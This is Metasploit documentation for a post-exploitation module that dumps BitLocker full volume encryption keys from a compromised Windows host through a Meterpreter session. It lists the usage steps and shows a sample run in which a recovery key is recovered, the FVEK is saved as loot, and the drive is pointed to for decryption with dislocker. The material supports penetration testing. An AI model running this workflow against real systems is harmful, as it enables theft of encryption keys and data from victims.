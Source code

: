 ## Vulnerable Application

This module enumerates ways to decrypt a Bitlocker volume and if a recovery key is stored locally or can be generated, dump the Bitlocker master key (FVEK)

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/bitlocker_fvek```
  4. Do: ```set SESSION <session id>```
  5. Do: ```set DRIVE_LETTER <letter>```
  6. Do: ```run```

## Options

  **DRIVE_LETTER**

  Dump information from the DRIVE_LETTER encrypted with Bitlocker.

  **RECOVERY_KEY**

  Use the recovery key provided to decrypt the Bitlocker master key (FVEK).

  **SESSION**

  The session to run this module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/bitlocker_fvek
  msf post(windows/gather/bitlocker_fvek) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/bitlocker_fvek) > set DRIVE_LETTER c
    DRIVE_LETTER => c
  msf post(windows/gather/bitlocker_fvek) > run

    [+] Successfuly opened Disk 0
    [*] Trying to gather a recovery key
    [+] Recovery key found : 579744-627517-149402-208362-055022-542289-041470-364089
    [*] The recovery key derivation usually take 20 seconds...
    [+] Successfully extract FVEK in /root/.msf4/loot/20191211125311_default_192.168.1.6_windows.file_437952.bin
    [+] This hard drive could later be decrypted using : dislocker -k <key_file> ...
    [*] Post Successful
    [*] Post module execution completed
  msf post(windows/gather/bitlocker_fvek) > sessions 1
    [*] Starting interaction with 1...

  meterpreter > sysinfo
    Computer        : TEST-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x86
    System Language : en_US
    Domain          : DOMAIN
    Logged On Users : 1
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
